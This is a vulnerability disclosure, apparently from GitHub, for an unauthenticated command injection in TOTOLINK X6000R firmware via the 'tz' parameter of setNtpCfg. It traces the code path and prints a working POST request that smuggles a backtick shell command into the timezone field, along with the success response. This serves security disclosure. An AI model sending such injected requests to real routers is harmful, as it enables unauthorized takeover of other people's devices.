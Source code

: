 # setNtpCfg

**Overview**

- Vendor: TOTOLINK
- Product: Totolink X6000R
- Version: V9.4.0cu.1360_B20241207
- Manufacturer's address：[https://www.totolink.net/](https://www.totolink.net/)
- Firmware download address : [https://www.totolink.net/data/upload/20250328/7a1a804767bc5b1196c480f62c40a20e.rar](https://www.totolink.net/data/upload/20250328/7a1a804767bc5b1196c480f62c40a20e.rar)
- **Author:** dtro and datnlq from VietSunshine Cyber Security Services

**Vulnerability details**

Totolink X6000R V9.4.0cu.1360_B20241207 was found to contain a command injection vulnerability in the `sub_4184C0` function via the `tz` parameter. This vulnerability allows unauthenticated attackers to execute arbitrary commands via a crafted request.

**Analyse**

- In the binary file `shttp`, the function `sub_4184C0` retrieves the `tz` parameter, passes it to register X25 , and then calls `Uci_Set_Str`

![image.png](setNtpCfg%2020e8aff2dc8b80a3afafef36b48f7496/image.png)

- Call the function `uci_set_str` to set the values for timezone and NTP using register X25, then the function `set_timezone_to_kernel` is called

![image.png](setNtpCfg%2020e8aff2dc8b80a3afafef36b48f7496/image%201.png)

- In the binary file `libcscommon.so` , the function `set_timezone_to_kernel`, it calls the function `uci_get_str` to retrieve the previously set values for timezone and NTP, then passes them to the function `do_system`.

![image.png](setNtpCfg%2020e8aff2dc8b80a3afafef36b48f7496/image%202.png)

**Request**

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.210.133:8080
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 128

{"tz":"UTC+9`ls>/web/cmd1.txt`","enable":"1","server":"pool.ntp.org*cn.pool.ntp.org*europe.pool.ntp.org","topicurl":"setNtpCfg"}
```

**Response**

```python
HTTP/1.0 200 OK
Server: SHTTPD 
Date: Tue, 10 Jun 2025 07:26:12 GMT
X-UA-Compatible: IE=edge
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Expires: -1
Content-Type: application/json
Connection: close

{ "success": true, "error": "", "lan_ip": "", "wtime": "", "reserv": "reserv" }
```

**PoC**

![image.png](setNtpCfg%2020e8aff2dc8b80a3afafef36b48f7496/image%203.png)

![image.png](setNtpCfg%2020e8aff2dc8b80a3afafef36b48f7496/image%204.png)

**Reference:** 

- [https://github.com/phieulang1993/emu/tree/master/emu_arm](https://github.com/phieulang1993/emu/tree/master/emu_arm)